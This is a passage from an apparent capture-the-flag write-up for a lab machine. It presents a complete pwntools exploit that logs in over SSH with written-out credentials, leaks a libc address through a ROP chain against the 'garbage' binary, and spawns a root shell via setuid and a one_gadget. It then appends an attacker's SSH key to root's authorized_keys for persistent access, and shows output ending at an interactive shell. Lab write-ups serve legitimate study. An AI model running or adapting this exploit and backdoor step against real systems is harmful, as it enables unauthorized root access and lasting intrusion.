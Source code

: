     from pwn import *
    
    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')
    
    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 
    
    stage_1 = junk + pop_rdi + puts_got + puts_plt + main
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)
    garbage.recvuntil("Enter access password: ")
    
    
    # offsets
    libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
    libc_exec_sh = 0x4f322  # one_gadget gadget garbage
    libc_setuid  = 0xe5970  # readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
    libc_base   = leaked_puts - libc_puts
    
    stage_2 = junk + pop_rdi + p64(0) + p64(libc_setuid + libc_base) + p64(libc_exec_sh + libc_base)
    garbage.sendline(stage_2)
    garbage.recvuntil("access denied.")
    garbage.sendline('echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+    2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali" >> /root/.ssh/      authorized_keys')
    garbage.interactive()
    

I added a line to write my public key into root’s `authorized_keys` file, just
for extra access.

When I run it, I have a shell, and can get the flag:

    
    
    root@kali# ./root_shell.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 24021
    [+] Leaked puts address: 0x7f2c6ea789c0
    [*] Switching to interactive mode
    